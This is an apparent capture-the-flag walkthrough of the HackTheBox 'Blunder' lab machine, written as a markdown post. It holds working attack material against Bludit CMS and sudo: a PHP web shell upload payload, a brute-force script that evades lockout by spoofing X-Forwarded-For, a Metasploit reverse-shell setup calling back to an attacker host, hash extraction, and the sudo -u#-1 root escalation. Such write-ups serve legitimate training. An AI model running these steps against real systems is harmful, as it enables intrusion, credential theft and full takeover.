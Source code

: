 ```yaml
---
title: "HackTheBox: Blunder | Walkthrough"
date: 2020-10-17
categories: [hackthebox]
tags: [linux, bludit, web, bruteforce, privesc]
---
```


## Recon

Starting with an nmap scan:

```bash
nmap -A 10.10.10.191 -o nmap
````

Output:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-31 17:45 +0545
Nmap scan report for 10.10.10.191
Host is up (0.38s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp closed ftp
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
Aggressive OS guesses: Linux variants (various)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only port 80 is open, but let's run a full port scan to ensure we don't miss anything:

```bash
nmap -p- -A -T4 10.10.10.191 -o allports
```

In the meantime, let's check the website and run some content discovery:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.10.191/FUZZ -t 500
```

Exploring the website, we notice JS files under `/bl-kernel/js/`, indicating the site is running **Bludit CMS**.

## Content Discovery

FFUF results:

```
.htaccess        [Status: 403]
.htpasswd        [Status: 403]
LICENSE          [Status: 200]
about            [Status: 200]
admin            [Status: 301]
cgi-bin/         [Status: 301]
robots.txt       [Status: 200]
server-status    [Status: 403]
usb              [Status: 200]
```

* `/admin` shows a login portal (default credentials fail).
* We also find `/todo.txt` with a username: `fergus`.

## Exploit Search

Searching for Bludit exploits:

```bash
searchsploit Bludit
```

We find:

* **Bludit - Directory Traversal / Image File Upload (Metasploit)**
* **Bludit Pages Editor 3.0.0 - Arbitrary File Upload**

We can try the non-Metasploit exploit first (`46060.txt`) which uses:

```http
POST /admin/ajax/upload-files HTTP/1.1
Host: <host>
Content-Disposition: form-data; name="bluditInputFiles[]"; filename="poc.php"
<?php system($_GET["cmd"]);?>
```

It requires authentication, so we need credentials.

## Bruteforce Credentials

Using **todo.txt**, we know the username is `fergus`.

Python bruteforce script (`bruteforce.py`):

```python
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'

wordlist = []
with open("blundercewl_wordlist.txt","r", errors="ignore") as file:
    for line in file:
        wordlist.append(line.rstrip())

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)
    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0',
        'Referer': login_url
    }
    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }
    login_result = session.post(login_url, headers=headers, data=data, allow_redirects=False)
    if 'location' in login_result.headers and '/admin/dashboard' in login_result.headers['location']:
        print(f"SUCCESS: {username}:{password}")
        break
```

Generate wordlist:

```bash
cewl http://10.10.10.191/ -w blundercewl_wordlist.txt -m 8
```

Running the script reveals the password:

```
RolandDeschain
```

## Getting a Meterpreter Shell

Use the Metasploit module:

```bash
msfconsole
use exploit/linux/http/bludit_upload_images_exec
set rhosts 10.10.10.191
set bludituser fergus
set bluditpass RolandDeschain
set payload php/meterpreter/reverse_tcp
set lhost 10.10.14.21
run
```

We now have a **meterpreter shell**.

Exploring `/home`:

```
hugo
shaun
```

## Extracting Password Hashes

Check Bludit database for users:

```bash
cd /var/www/bludit-3.10.0a/bl-content/databases
cat users.php
```

Found hash for `hugo`:

```
faca404fd5c0a31cf1897b823c695c85cffeb98d
```

Cracking it using CrackStation gives:

```
Password120
```

Switch to Hugo:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
export SHELL=bash
su - hugo
# Password: Password120
```

## Privilege Escalation

Check sudo permissions:

```bash
sudo -l
```

Output:

```
User hugo may run the following commands on blunder: (ALL, !root) /bin/bash
```

Exploit sudo trick to gain root:

```bash
sudo -u#-1 /bin/bash
```

We now have **root access**! 🎉

